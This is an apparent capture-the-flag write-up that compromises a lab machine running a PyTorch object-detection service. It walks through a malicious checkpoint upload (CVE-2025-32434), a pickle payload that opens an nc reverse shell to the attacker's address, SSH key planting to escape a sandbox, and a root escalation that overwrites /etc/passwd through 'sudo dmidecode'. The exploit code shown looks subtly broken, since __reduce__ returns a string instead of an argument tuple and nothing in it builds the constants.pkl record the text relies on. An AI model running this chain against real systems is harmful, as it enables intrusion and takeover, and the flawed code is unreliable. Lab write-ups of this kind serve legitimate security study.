

# visionlab

## Executive Summary

| Machine | OS | Author | Category | Platform |
| :--- | :--- | :--- | :--- | :--- |
| visionlab | Linux | Lenam | Medium | VulNyx |

**Summary:** The VisionLab machine exposed SSH on port 22 and a Uvicorn object detection web application on port 8000 whose `/api/detect` endpoint accepted a user supplied PyTorch checkpoint and loaded it with `torch.load(weights_only=True)`. A malicious `.pt` archive carrying a `constants.pkl` record was misdispatched by `_is_torchscript_zip` in `torch/serialization.py` to `torch.jit.load`, so the `weights_only` unpickler never ran, allowing CVE-2025-32434 to deserialize a pickle whose `__reduce__` called `os.system` to spawn a reverse shell as the `vision` user. That shell landed inside a no-new-privileges sandbox where `sudo` was blocked, but the `vision` home directory was shared with the host, so an SSH `authorized_keys` file planted from the sandbox was honored by the host sshd on port 22, delivering an interactive SSH session as `vision` on the host where `sudo -l` revealed passwordless root execution of `/usr/sbin/dmidecode`. Because `dmidecode --dump-bin` writes a raw DMI table to an attacker chosen path as root, a forged table built with the `dmiwrite` utility, whose body was a rewritten `/etc/passwd` containing a passwordless `rooted::0:0` entry, was written over the real `/etc/passwd`, and `su rooted` yielded a root shell together with both flags.

---

## Reconnaissance

The engagement began with host discovery on the lab subnet, followed by a full TCP port scan and targeted service fingerprinting of the target.

1. An Nmap ARP sweep across the `192.168.56.0/24` subnet located three live hosts, including the target at `192.168.56.213`:

```zsh
❯ sudo nmap -sn -PR 192.168.56.0/24            
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-14 18:51 +0700
Nmap scan report for 192.168.56.100
Host is up (0.00018s latency).
MAC Address: 08:00:27:BD:91:87 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.213
Host is up (0.00077s latency).
MAC Address: 08:00:27:27:C0:AF (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.1
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 5.00 seconds
```

The sweep confirmed the target at `192.168.56.213`, a VirtualBox guest whose MAC matched the Oracle vendor prefix.

2. The target IP was pinned to a shell variable and a full TCP port scan was launched against all 65535 ports:

```zsh
❯ ip=192.168.56.213
```

```zsh
❯ nmap -p- -Pn $ip                          
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-14 18:55 +0700
Nmap scan report for 192.168.56.213
Host is up (0.00056s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 2.26 seconds
```

Only two TCP ports answered: SSH on 22 and a service on 8000 categorized as `http-alt`.

3. A targeted service and script detection scan against the two open ports identified the software stack:

```zsh
❯ nmap -p 22,8000 -sCV -Pn -T4 --min-rate 5000 $ip
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-14 18:57 +0700
Nmap scan report for 192.168.56.213
Host is up (0.0022s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0p2 Debian 7+deb13u4 (protocol 2.0)
8000/tcp open  http    Uvicorn
|_http-server-header: uvicorn
|_http-title: VisionLab \xE2\x80\x94 Object Detection
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.48 seconds
```

SSH was OpenSSH 10.0p2 on Debian 13, and port 8000 was a Uvicorn server whose HTTP title read `VisionLab — Object Detection`. The `Uvicorn` server header identified the application as an ASGI Python service, which pointed toward a machine learning inference backend rather than a traditional web stack.

---

## Initial Access

### CVE-2025-32434 torch.load weights_only Bypass via Malicious Checkpoint

4. The VisionLab application presented an object detection interface that accepted a sample or uploaded image and offered a choice of checkpoint, including an option to supply a custom `.pt` model file alongside the default COCO model:



The web UI exposed a multipart upload surface where a user could select an image, choose a checkpoint by name or upload a custom one up to roughly 80 MB, set a confidence threshold, and trigger analysis. Behind that form, the `/api/detect` endpoint received the image and the optional model file and passed the checkpoint through `torch.load(..., weights_only=True)`. The raw exploitation notes recorded during the engagement stated that `POST /api/detect` accepts a custom checkpoint in the `model` field, with `.pt` or `.pth` extension and a limit of 80 MB, alongside the image. The protection offered by `weights_only=True` depends on the restricted unpickler running, but PyTorch contains a dispatch path that sidesteps it: when the loaded file is a ZIP archive containing a `constants.pkl` record, the `_is_torchscript_zip` check inside `torch/serialization.py` routes the entire load to `torch.jit.load`, and the `weights_only` unpickler never executes. This is CVE-2025-32434. The modified exploit was adapted from the reference at https://github.com/B1tBit/CVE-2025-32434-exploit/blob/main/CVE-2025-32434-exploit.py.

5. To build the malicious checkpoint, a Python virtual environment was created on the attacker box and PyTorch was installed into it:

```zsh
❯ python3 -m venv venv                        

❯ source venv/bin/activate  

❯ pip install torch 
```

With `torch` available, the payload was a small Python class whose `__reduce__` dunder returned a tuple of `(os.system, "nc 192.168.56.1 6666 -e /bin/bash")`. When PyTorch deserialized the object, the pickle protocol invoked `os.system` with that command string, connecting a reverse shell back to the attacker. The class was instantiated and saved to `exp.pt` with `torch.save`:

```zsh
❯ cat exp.py                                     
import os
import torch


class ExploitPayload:
    def __reduce__(self):
        return (os.system, "nc 192.168.56.1 6666 -e /bin/bash")


obj = ExploitPayload()

torch.save(obj, "exp.pt")

❯ python3 exp.py
```

The `__reduce__` method is the pickle hook that tells the unpickler how to reconstruct an object: it returns a callable and its arguments, and on load the unpickler calls that callable with those arguments. By returning `os.system` as the callable and the `nc` command string as its argument, deserialization of `exp.pt` executed the reverse shell command directly.

6. A listener was started on the attacker box on port 6666 to catch the callback:

```zsh
❯ penelope -p 6666
```

The `exp.pt` checkpoint was then uploaded to `/api/detect` as the `model` field of a multipart request, together with a sample image to satisfy the inference pipeline. When the application called `torch.load` on the supplied file, the `constants.pkl` record triggered the TorchScript dispatch path, the `weights_only` restriction did not apply, the pickle was deserialized, and `os.system` spawned the reverse shell. The callback arrived as a shell running as the `vision` user inside the service working directory:

```zsh
vision@VisionLab:/opt/visionlab$ id;hostname
uid=1000(vision) gid=1000(vision) grupos=1000(vision),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),101(netdev)
VisionLab
vision@VisionLab:/opt/visionlab$ cd
vision@VisionLab:~$ ls -la
total 36
drwx------  5 vision vision 4096 ago  1 16:40 .
drwxr-xr-x  3 root   root   4096 jul 30 21:35 ..
-rw-r--r--  1 vision vision  220 jul 30 21:35 .bash_logout
-rw-r--r--  1 vision vision 3684 ago  1 14:24 .bashrc
drwxrwxr-x  3 vision vision 4096 jul 30 21:58 .cache
drwx------  3 vision vision 4096 ago  1 14:07 .local
-rw-r--r--  1 vision vision  807 jul 30 21:35 .profile
drwxrwxr-x 14 vision vision 4096 jul 31 20:55 .pyenv
-rw-r-----  1 root   vision   33 ago  1 14:07 user-48Jj1Lw.txt
```

The shell was running as `uid=1000(vision)`, and the home directory listing revealed a user flag file named `user-48Jj1Lw.txt`, readable by the `vision` group, alongside a `.pyenv` tree indicating the service ran under a managed Python interpreter.

7. Privilege enumeration through `sudo` in this shell produced an unexpected result:

```bash
vision@VisionLab:~$ sudo -l
sudo: The "no new privileges" flag is set, which prevents sudo from running as root.
sudo: If sudo is running in a container, you may need to adjust the container configuration to disable the flag.
```

The reverse shell had landed inside a sandboxed context protected by the `no new privileges` flag, which prevented `sudo` from elevating to root and hinted that the service was running inside a container. The `vision` home directory was nonetheless accessible and writable from this shell, and the presence of the user flag file suggested the directory was shared with the host. That shared state became the pivot: an SSH key planted into `~/.ssh/authorized_keys` from inside the sandbox would be honored by the host sshd listening on port 22.

---

## Lateral Movement

### Escaping the Service Sandbox through a Shared Home Directory

8. On the attacker box, an ed25519 SSH keypair was generated with no passphrase, and the public key was displayed for planting on the target:

```zsh
❯ ssh-keygen -f id_rsa -N '' -q

❯ cat id_rsa.pub 
ssh-ed25519 AAAAC...
```

9. From the sandboxed reverse shell, the `.ssh` directory was created inside the shared `vision` home directory, the public key was written into `authorized_keys`, and the file permissions were tightened to 600 to satisfy sshd's strictness:

```bash
vision@VisionLab:~$ mkdir .ssh
vision@VisionLab:~$ cd .ssh
vision@VisionLab:~/.ssh$ echo 'ssh-ed25519 AAAAC...' > authorized_keys
vision@VisionLab:~/.ssh$ chmod 600 authorized_keys 
```

10. With the key in place, SSH ingress to the host as `vision` succeeded using the planted private key. The host sshd accepted the key because the `authorized_keys` file written inside the sandbox lived in the same home directory the host sshd consulted, and the session landed on the real host rather than the service container:

```zsh
❯ ssh -i id_rsa vision@$ip                      
The authenticity of host '192.168.56.213 (192.168.56.213)' can't be established.
ED25519 key fingerprint is: SHA256:nHDAHowlMHw4eqfqlkt0nNPU+6BVf7qbQusGmCLFhgg
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.213' (ED25519) to the list of known hosts.
Linux VisionLab 6.12.96+deb13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.12.96-1 (2026-07-20) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug  1 21:37:44 2026 from 192.168.1.146
vision@VisionLab:~$ sudo -l
Matching Defaults entries for vision on VisionLab:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User vision may run the following commands on VisionLab:
    (ALL) NOPASSWD: /usr/sbin/dmidecode
```

The SSH session landed on a Debian 13 host running kernel `6.12.96+deb13-amd64`, and on this host `sudo` worked normally. The `sudo -l` output now showed a single passwordless entry allowing `vision` to run `/usr/sbin/dmidecode` as any user, including root. The shared home directory had bridged the container trust boundary and restored full sudo functionality on the host.

---

## Privilege Escalation

### Arbitrary File Write with sudo dmidecode --dump-bin

11. The `dmidecode` binary, when run as root with `--dump-bin`, writes a raw DMI table to an arbitrary path chosen by the caller, which makes it an arbitrary file write primitive. To craft a valid DMI table whose body would be accepted by `dmidecode`, the `dmiwrite` utility was cloned from its repository and compiled on the attacker box:

```zsh
❯ git clone https://github.com/adamreiser/dmiwrite.git

❯ cd dmiwrite                            

❯ make                  
gcc -W -Wall -Wshadow -Wstrict-prototypes -Wpointer-arith -Wcast-qual -Wcast-align -Wwrite-strings -Wmissing-prototypes -Winline -Wundef dmiwrite.c util.c -o dmiwrite
```

12. The attack plan was to overwrite `/etc/passwd` with a forged copy that included a passwordless root account. The input file `x.in` was prepared with the complete contents of the real `/etc/passwd`, copied verbatim, so that the existing accounts would remain valid after the overwrite:

```zsh
❯ cat x.in
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
dhcpcd:x:100:65534:DHCP Client Daemon:/usr/lib/dhcpcd:/bin/false
systemd-timesync:x:991:991:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:990:990:System Message Bus:/nonexistent:/usr/sbin/nologin
sshd:x:989:65534:sshd user:/run/sshd:/usr/sbin/nologin
vision:x:1000:1000:vision,,,:/home/vision:/bin/bash
```

To this faithful copy, a single new line was appended defining a passwordless root account named `rooted`, with UID and GID 0, an empty password field, and a root login shell:

```zsh
❯ echo 'rooted::0:0:root:/root:/bin/bash' >> x.in  
```

The `dmiwrite` tool then wrapped that input into a valid DMI table file `x.dmi`, padding and checksumming it so `dmidecode` would accept it as genuine:

```zsh
❯ ./dmiwrite ./x.in x.dmi                            
Wrote payload of length 33 to x.dmi
Padding 983007 bytes to x.dmi
	Setting checksum: memset(buf+30, 70, 1);

Wrote DMI header of length 32 to x.dmi
Padding 65536 bytes to x.dmi
Congratulations, x.dmi looks like a valid DMI file.
```

13. The forged DMI table was transferred to the target. A temporary HTTP server was started on the attacker box on port 9999, and the file was pulled down with `wget` from the target session:

```zsh
❯ python3 -m http.server 9999 &
```

```zsh
vision@VisionLab:~$ wget http://192.168.56.1:9999/x.dmi
```

14. With the forged table on the target, `dmidecode` was invoked through `sudo` with `--no-sysfs` to read the table from the supplied file rather than from sysfs, and `--dump-bin /etc/passwd` to write the parsed table out to `/etc/passwd` as root:

```zsh
vision@VisionLab:~$ sudo dmidecode --no-sysfs -d x.dmi --dump-bin /etc/passwd
# dmidecode 3.4
Scanning x.dmi for entry point.
SMBIOS 2.1 present.
1 structures occupying 1264 bytes.
Table at 0x00000000.

# Writing 1264 bytes to /etc/passwd.
# Writing 0 bytes to /etc/passwd.
/etc/passwd: fwrite: No such file or directory
```

`dmidecode` ran as root and reported writing 1264 bytes to `/etc/passwd`. The trailing `fwrite: No such file or directory` message refers to a secondary write of zero bytes after the primary 1264-byte write had already completed, so the overwrite of `/etc/passwd` with the forged table contents, including the passwordless `rooted` account, had succeeded.

15. With the forged `rooted` account present in `/etc/passwd` and its password field empty, `su rooted` required no password and switched into a root shell. The identity was confirmed and both flags were read:

```zsh
vision@VisionLab:~$ su rooted
rooted@VisionLab:/home/vision# cd
rooted@VisionLab:~# id;whoami;hostname
uid=0(rooted) gid=0(root) grupos=0(root)
rooted
VisionLab
rooted@VisionLab:~# cat /home/vision/user-48Jj1Lw.txt /root/root.txt 
f65...
14f...
```

The `uid=0(rooted) gid=0(root)` output confirmed full root compromise of the VisionLab host. The arbitrary file write through `sudo dmidecode --dump-bin` had replaced `/etc/passwd` with the forged copy, the passwordless `rooted` account was honored by `su`, and both the user flag in `/home/vision/user-48Jj1Lw.txt` and the root flag in `/root/root.txt` were recovered.

---

## Attack Chain Summary

1. **Reconnaissance**: An ARP sweep located the target at `192.168.56.213`, and a full TCP scan found SSH on port 22 and a Uvicorn object detection application on port 8000 titled VisionLab.

2. **Vulnerability Discovery**: The `/api/detect` endpoint loads user supplied `.pt` checkpoints with `torch.load(weights_only=True)`, which is bypassed by CVE-2025-32434 when the archive contains a `constants.pkl` record that dispatches the load to `torch.jit.load`.

3. **Exploitation**: A malicious checkpoint whose pickle `__reduce__` calls `os.system` to spawn a reverse shell was uploaded to `/api/detect` and triggered, yielding a shell as `vision` inside a no-new-privileges sandbox.

4. **Internal Enumeration**: `sudo -l` was blocked in the sandbox, but the shared `vision` home directory allowed planting an SSH `authorized_keys` file; SSH ingress to the host then revealed passwordless root execution of `/usr/sbin/dmidecode`.

5. **Privilege Escalation**: `sudo dmidecode --dump-bin` wrote a forged DMI table over `/etc/passwd` as root, injecting a passwordless `rooted::0:0` account, and `su rooted` granted a root shell and both flags.
